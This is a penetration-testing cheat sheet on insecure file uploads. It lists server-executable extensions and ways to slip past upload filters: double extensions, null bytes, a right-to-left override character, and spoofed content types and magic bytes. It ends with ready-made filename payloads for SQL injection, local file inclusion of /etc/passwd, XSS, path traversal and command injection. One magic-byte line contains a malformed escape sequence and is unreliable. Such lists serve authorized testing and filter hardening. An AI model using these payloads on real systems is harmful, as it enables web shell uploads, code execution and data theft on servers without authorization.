 # Insecure File Upload

## Defaults extensions

```bash
#PHP
.php, .php3, .php4, .php5, .php7, .pht, .phps, .phar, .phpt, .pgif, .phtml, .phtm, .inc

#ASP
.asp, .aspx, .cer, .asa

#JSP
.jsp, .jspx, .jsw, .jspf

#Perl
.pl, .pm, .cgi, .lib

#Coldfusion
.cfm, .cfml, .cfc, .dbm
```

## Bypasses

### Double extensions

```bash
file.jpg.php
file.php.jpg
file.php.blah123jpg
```

### Null byte

```
file.php%00.gif
file.php\x00.gif
file.php%00.png
file.php\x00.png
file.php%00.jpg
file.php\x00.jpg
```

### Special characters

```bash
#In Windows when a file is created with dots at the end those will be removed
file.php......

#Whitespace characters
file.php%20

#Right ot Left Override
file.%E2%80%AEphp.jpg #Will became file.gpj.php
```

### Content-type Bypass

```bash
#Original name but different content-type
Content-Type: image/jpeg
Content-Type: image/gif
Content-Type: image/png
```

### Magic bytes

```bash
#Sometimes applications identify file types based on their first signature bytes. Adding/replacing them in a file might trick the application
PNG: \x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03[
JPG: \xff\xd8\xff
GIF: GIF87a
GIF: GIF8
```

### Triple equal

```
/?file=shell.php    <-- Blocked
/?file===shell.php  <-- Bypassed
```

### Filename Vulnerabilities:

```bash
#Time-Based SQLi Payloads
poc.js'(select*from(select(sleep(20)))a)+'.extension

#LFI Payloads
image.png../../../../../../../etc/passwd

#XSS Payloads
'"><img src=x onerror=alert(document.domain)>.extension

#File Traversal
../../../tmp/lol.png

#Command Injection
; sleep 10;
```

## All Filename payloads

```csharp
.jpg.php
.php.jpg
.php.blah123jpg
.php%00.gif
.php\x00.gif
.php%00.png
.php\x00.png
.php%00.jpg
.php\x00.jpg
.php......
.php%20
.%E2%80%AEphp.jpg
.js'(select*from(select(sleep(20)))a)+'.extension
.png../../../../../../../etc/passwd
'"><img src=x onerror=alert(document.domain)>.extension
../../../tmp/lol.png
.; sleep 10;
```

